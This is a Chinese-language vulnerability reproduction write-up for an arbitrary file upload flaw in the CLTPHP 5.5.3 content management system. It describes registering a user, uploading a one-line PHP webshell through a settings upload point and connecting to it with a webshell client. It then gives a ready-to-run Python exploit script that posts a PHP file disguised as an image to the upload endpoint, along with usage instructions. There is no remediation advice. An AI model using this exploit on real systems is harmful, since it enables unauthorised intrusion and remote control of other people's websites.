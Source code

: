 CLTPHP 5.5.3 任意文件上传漏洞
=============================

一、漏洞简介
------------

CLTPHP采用ThinkPHP开发，后台采用Layui框架的内容管理系统。

二、漏洞影响
------------

CLTPHP 5.5.3

三、复现过程
------------

找到一个注册界面

![2.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId24.png)

随便注册一个用户，登陆后在设置里找到一个上传点

![3.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId25.png)

上传我们的一句话木马

![4.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId26.png)

查看返回包，上传成功

![5.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId27.png)

访问失败，猜测返回路径可能不是绝对路径

![6.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId28.png)

通过报错信息查找关键词，发现存在public目录 那再把public加上再试试\~
success！

![7.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId29.png)

菜刀连接

![8.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId30.png)

### poc

> payload.py

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    #Author：Bypass
    #Date：2018.03.01
    import requests
    import sys

    def CLPHP_upload(url):
            header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,
                                    'X-Requested-With': 'XMLHttpRequest',} 
            geturl = url+"/user/upFiles/upload"
            files ={'file':('1.php',open('1.php','rb'),'image/jpeg')}
            res = requests.post(geturl, files=files,headers=header)
            print res.text

    if __name__ == "__main__":
            if len(sys.argv) == 2:
                    url=sys.argv[1]
                    CLPHP_upload(url)
                    sys.exit(0)
            else:
                    print ("usage: %s xxx.com " % sys.argv[0])
                    sys.exit(-1)

**使用方法**：把payload.py和一句话.php放到同一文件夹下，

![9.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId32.png)

cmd执行 `python payload.py www.0-sec.org`

![10.png](./.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId33.png)

参考链接
--------

> https://www.cnblogs.com/unixcs/p/11244463.html
